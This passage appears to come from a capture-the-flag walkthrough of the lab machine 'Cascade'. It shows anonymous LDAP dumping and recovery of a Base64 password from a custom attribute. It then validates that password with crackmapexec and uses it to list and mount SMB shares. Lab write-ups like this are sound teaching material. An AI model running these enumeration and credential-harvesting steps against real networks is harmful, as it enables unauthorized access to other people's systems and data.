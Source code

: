 Outputting all objects from the domain:
```
ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=cascade,DC=local' > cascade_ldap.output
```

Filtering the output file for unique attributes:
```
cat cascade_ldap.output | awk '{print $1}' | sort | uniq -c | sort -n | grep ':'
```

After analyzing the output, the attribute _cascadeLegacyPwd_ is a non-default attribute name.
Searching for the object that has this attribute name:
```
cat cascade_ldap.output | grep -B40 -A10 cascadeLegacyPwd
```
```
displayName: Ryan Thompson
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
sAMAccountName: r.thompson
userPrincipalName: r.thompson@cascade.local
(...)
cascadeLegacyPwd: clk0bjVldmE=
```

The user _r.thompson_ owns this attribute and it contains a Base64 string:
```
echo clk0bjVldmE= | base64 -d

rY4n5eva
```

Testing the credentials for the user:
```
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva
```

## Checking SMB (Port 445)

With the credentials of the user _r.thompson_ it is possible to display the SMB shares:
```
smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
```
```
Disk        Permissions     Comment
----        -----------     -------
ADMIN$      NO ACCESS       Remote Admin
Audit$      NO ACCESS
C$          NO ACCESS       Default share
Data        READ ONLY
IPC$        NO ACCESS       Remote IPC
NETLOGON    READ ONLY       Logon server share
print$      READ ONLY       Printer Drivers
SYSVOL      READ ONLY       Logon server share
```

Mounting the _Data share_ to our local client:
```
mkdir /mnt/cascade_data

mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/Data /mnt/cascade_data/
```
